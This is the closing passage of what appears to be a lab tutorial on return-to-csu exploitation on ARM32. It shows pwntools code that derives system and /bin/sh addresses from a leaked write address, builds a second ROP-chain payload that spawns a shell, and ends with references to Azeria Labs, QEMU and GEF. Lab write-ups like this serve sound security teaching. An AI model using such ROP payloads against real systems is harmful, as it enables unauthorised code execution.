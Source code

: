 _system\_offset = 0x60910 # difference between write and system address_

_binsh\_offset = 0x49814 # difference between write and /bin/sh address_

_system = (leaked\_write - system\_offset) # to get the randomized address of system_

_log.success(&#39;Leaked system@GLIBC: &#39; + hex(system))_

_binsh = (leaked\_write + binsh\_offset) - 1 # to get the randomized address of /bin/sh_

_log.success(&#39;Leaked /bin/sh: &#39; + hex(binsh)) # 1 is subtracted to convert in thumb mode_

_# second rop chain to call system_

_payload2 = junk_

_payload2 += p32(gadget1)_

_payload2 += p32(system)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(binsh)_

_payload2 += p32(0x0)_

_payload2 += p32(0x0)_

_payload2 += p32(gadget2)_

_p.sendline(payload2)_

_p.recv()_

_p.interactive()_

### **Running Exploit**

After running this exploit, we got the shell! 

<p align="center">
<img src="https://github.com/xetrapwn/xetrapwn.github.io/blob/master/images/return-to-csu_on_ARM32/figure13.png">
<br>
Fig 13 - Running exploit
</p>

### **References**

[1] &quot;Azeria Labs.&quot;[https://azeria-labs.com/](https://azeria-labs.com/) (accessed Jun. 06, 2021).

[2] &quot;Lab VM 2.0,&quot; _Azeria-Labs_.[https://azeria-labs.com/lab-vm-2-0/](https://azeria-labs.com/lab-vm-2-0/) (accessed Jun. 06, 2021).

[3] &quot;QEMU.&quot;[https://www.qemu.org/](https://www.qemu.org/) (accessed Jun. 06, 2021).

[4] &quot;Home - GEF - GDB Enhanced Features documentation.&quot;[https://gef.readthedocs.io/en/master/](https://gef.readthedocs.io/en/master/) (accessed Jun. 06, 2021).

